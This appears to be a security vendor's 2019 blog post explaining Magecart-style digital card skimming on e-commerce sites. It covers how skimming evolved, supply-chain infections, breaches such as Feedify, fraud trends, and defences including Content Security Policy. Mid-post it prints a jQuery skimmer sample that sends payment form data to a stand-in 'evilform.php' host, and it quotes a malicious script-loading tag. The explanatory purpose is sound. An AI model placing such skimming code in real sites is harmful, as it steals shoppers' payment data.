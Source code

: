 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "All About Online Skimming or Digital Skimming Attacks"
description: "Read everything you need to know about skimming attacks or magecart style attacks. The post explains the evolution of skimming attacks, how does it work, examples of skimming attacks, trends and how to protect against skimming in detail."

# Breadcrumbs
breadcrumbs:
  - name: Home
    path: /
  - name: Blog
    path: /blog/1/
  - name: All About Online Skimming...

# Fields
date: 2019-07-24
author:
  - Mickey Alton

blog_title: "All About Online Skimming or Digital Skimming Attacks"
categories: Research
tags:
  - client side data protection
  - online skimming attacks

thumbnail: digital-skimming.jpg
---
```


![All About Online Skimming or Digital Skimming Attacks](/assets/images/blog/digital-skimming.jpg)<br>

The rise of digital skimming attacks, web-based supply chain attacks, in recent years is stressing the e-commerce industry. E-commerce companies cannot ignore web-based supply chain attacks resulting in direct website breaches.

Our previous blog post, [Client-Side battle against JavaScript attacks](/blog/client-side-battle-against-javascript-attacks/), and [Why SRE’s should worry more about third-party javascript](/blog/sres-should-worry-third-party-javascript/), shed light on the growing digital skimming menace.

Digital skimming is a semi-new threat, often called “Magecart,” consists of more than a dozen “official” different rival groups. These groups are targeting online retailers and eluding security researchers. Interestingly enough these groups don't always play nice with each other. They compete with each other to steal “low hanging” credit card data and personally identifiable information (PII). And resell them on deep-web and dark-net markets. This client-side threat is the new face of modern e-commerce cybercrimes.

## What is Skimming

Skimming Definition: Skimming or card skimming was originally used to describe the physical tampering of POS (point-of-sale) devices, ATMs and gas pumps by placing a hidden device inside them to steal credit card information.
The stolen credit card information is used to make online (card-not-present) purchases, cloned for in-store (card present) purchases or sold on different deep-web markets and darknet markets.
Victims of credit card skimming were often unaware of the theft until they noticed unauthorized charges on their account.

## What is digital skimming or online card skimming

Digital skimming is a term describing the action of stealing credentials and sensitive payment information from website visitors. Digital skimmers use pre-placed malicious javascript code that sniffs user inputs from sensitive forms or creates a malicious iframe with fake payment forms to sniff credit card information.

![This is an example of a card skimmer](/assets/images/blog/card-skimmer.jpg)

## The evolution of skimming

Later on, cybercriminals started to practice the same concept of card skimming - online. Instead of placing a physical device on the ATM, they would place a code that acts the same way (scanning private information) in online stores. There are more than a few synonyms for this semi-new cybercrime trend of digital skimming: js sniffing, digital skimming, web-skimming, and js stealer. They all refer to the same practice of injecting an unwanted piece of javascript malware into website cart or checkout page code to ‘grab’ sensitive information.

## What does a digital or online card skimming code look like

Below is a skimming script example taken from [Github](https://github.com/mspringfield/MageCart_Testing/blob/master/include.js) that resembles pieces of code that were used to carry out real sniffing operations.

```javascript
window.onload = function() {
  jQuery("#ifrmPayment")
    .contents()
    .find("#btnCreditCard")
    .bind("mouseup touchend", function(e) {
      var dati = jQuery("#ifrmPayment")
        .contents()
        .find("form");
      setTimeout(function() {
        jQuery.ajax({
          type: "POST",
          async: true,
          url: "hxxp://example.net/evilform.php",
          data: pdati,
          dataType: "application/json",
        });
      }, 20);
    });
};
```

_Code taken from Github that was used to carry out real sniffing operations._

Skimming scripts usually come heavily obfuscated, some are very short and have less than 20 lines of ‘innocent’ JavaScript code and one line that contains the malicious behavior. In the example above, we can see that the attackers are leveraging legitimate jQuery.

## How does digital or online card skimming work

Most of the skimming operations are carried out in two ways:

- Direct hack of a website: The direct hack of a website or a batch of websites, by brute-forcing administrator credentials (called brute-force attacks) or by using known, zero-day vulnerabilities (usually CMS based) for placing a malicious js in a website is an obvious but still attractive way to carry out a skimming operation.
- Supply chain attack: The more contemporary way - infection by supply chain attack - can be read in our latest blog, client-side-The security-blindspot of your website. The client-side has been evaluated and now two of the main sources of JS modules are open-source libraries and third-party vendors. This attack works by “simply” compromising one third-party vendor and tampering with the original script to deliver the malicious piece of code with the original code to all of the websites using the poisoned third-party script.

## Examples Of Magecart Skimming Attacks

During the period of 2017-2018 more than 12 third-party vendors were breached by “Magecart” (group 5), a few among them are:

- [Feedify](https://www.zdnet.com/article/feedify-becomes-latest-victim-of-the-magecart-malware-campaign/), August - September 2018. Feedify, an Indian company that provides browser-based customer survey service, has more than 4,000 customers according to its website. After Feedify detected the breach and removed the malicious script, the attackers (who had control of the core infrastructure) kept adding the skimming script three more times before the root cause of the breach was truly fixed.
- PushAssist is a 3rd party vendor offering a push notification service to reach and re-engage customers, it was also compromised my Magecart to deliver malicious JS sniffing code to websites that use PushAssist’s service.
  These third-party vendor breaches and many more resulted in a huge impact on tens of thousands of visitors.

Moreover, while press releases and news tend to focus on operations against known brands and websites there are ongoing attacks carried out widely targeting CMS-based websites.
The impact of these attacks should not be taken lightly. For instance, less than a year ago around 17 vulnerable Magento extensions were leveraged by skimmers to launch wide skimming attacks using POI (PHP object Sterilization) [vulnerability in several popular Magento extensions](https://sansec.io/labs/2018/10/23/magecart-extension-0days/).
Over 7,000 Magento shops were reported as compromised during 2018 alone. In most cases, the infection was as simple as a single line of HTML that loads a malicious script used to carry out the attack methodically on thousands of website without much effort.

```javascript
<script type="text/javascript" src="https://magento.name/mage/mage.js"></script>
```

Although site owners have been notified by good samaritans security researchers that the C&C servers were a sinkhole, hundreds of website still have the malicious snippet embedded in their source code while the malware itself does not exist anymore. It remains from a past breach.
Magento Commerce, Powerfront CMS, and OpenCart-based website are under constant attack in a new era of digital skimming and there’s not a proper solution as of today. Magento shop breaches are losing their attention to more ‘appealing’ campaigns, involving compromises of larger brands such as Techrabbit, [VisionDirect](https://www.bleepingcomputer.com/news/security/visiondirect-data-breach-caused-by-magecart-attack/) and many more.

## Digital Skimming Trends

Digital skimming is on an upward trend. This new fraud trend does not seem to be fading out, with new breaches, new actors and hundreds of thousands of victims.
According to [Gemini Advisory’s](https://geminiadvisory.io/card-fraud-on-the-rise/) research, fraud involving physical cards (CP: card-present) is on a downward trend while online (CNP: card-not-present - skimmed digitally) is rising.

![Comparison of card-present vs. card-not-present fraud](/assets/images/blog/comparison-card-present-not-present.jpg)<br>

These trends correlate perfectly with similar findings by 2019 [Verizon](https://enterprise.verizon.com/resources/reports/2019-data-breach-investigations-report.pdf) data breach report that clearly shows the rise in new web skimming trend. In their words exactly, “Web application attacks have punched the time clock and relieved POS Intrusion of their duties.“

## How to protect against digital or online card skimming?

Even though the digital skimming threat is constantly evolving, attackers always stay busy finding new ways to infect websites and exfiltrate sensitive data. There are relatively simple countermeasures that can be taken in order to protect against the threat of online card skimming.

1. Correct use of Content Security Policy (CSP) by website administrators. CSP headers are used to restrict communication and data transfer between domains and will constitute a great blocker for a malicious script trying to transfer data from domain to unauthorized domain.
2. From the visitor's point of view (client-side): There are more than a few extensions such as “ScriptSafe”, “ContentBlockHelper”, “NoScript” and more that provide the users both control on actions made by scripts and visibility on all the domains that are serving scripts. Another option is using privacy-oriented browsers such as “Brave Browser” that allows the user to block the third-party script from being loaded.

Stay tuned for more blogs on the topic of third-party code vulnerabilities. Find out more about protecting against digital skimming attacks with [PerimeterX code defender](/products/code-defender/).
